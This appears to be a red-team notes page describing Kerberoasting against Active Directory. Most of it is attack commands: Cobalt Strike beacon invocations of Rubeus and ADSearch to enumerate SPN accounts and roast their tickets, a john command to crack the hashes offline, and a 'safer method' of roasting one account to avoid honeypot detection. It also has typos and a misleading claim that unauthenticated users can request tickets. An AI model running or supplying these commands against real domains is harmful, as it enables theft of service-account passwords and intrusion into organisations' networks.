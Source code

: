 # Kerberoasting

## Introduction

Kerberoasting is an attack technique that attempts to obtain a password has hof an Active Directory account that has a Service Principal Name (SPN).&#x20;

**How it works**: An unauthenticated domain user can request a Kerberos ticket for an SPN. The kerberos ticket is encrypted with the hash of the service account. Adversaries then work offline to crack the password hash.

## Rubeus

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe kerberoast /simple /nowrap

[*] Total kerberoastable users : 3
<hashes will be here>
```

## Crack Passwords

```sh
$ john --format=krb5tgs --wordlist=wordlist mssql_svc
```

<mark style="color:red;">**Note**</mark>: some hash formats can incompatibility with john. &#x20;

Removing the SPN so it became: `$krb5tgs$23$*mssql_svc$dev.domain.lab*$6A9E[hash]` seemed to address the issue.

## Safer Method

<mark style="color:red;">**Note**</mark>: By default, Rubeus will roast every account that has an SPN. Honey Pot accounts can be configured that will catch these type of attacks.

### Enumerate SPN accounts

```bash
beacon> execute-assembly C:\Tools\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" 
--attributes cn,servicePrincipalName,samAccountName
```

### Rubeus /user

Roast an indiviual account with the /user parameter

```bash
beacon> execute-assembly C:\Tools\Rubeus.exe kerberoast /user:mssql_svc /nowrap
```
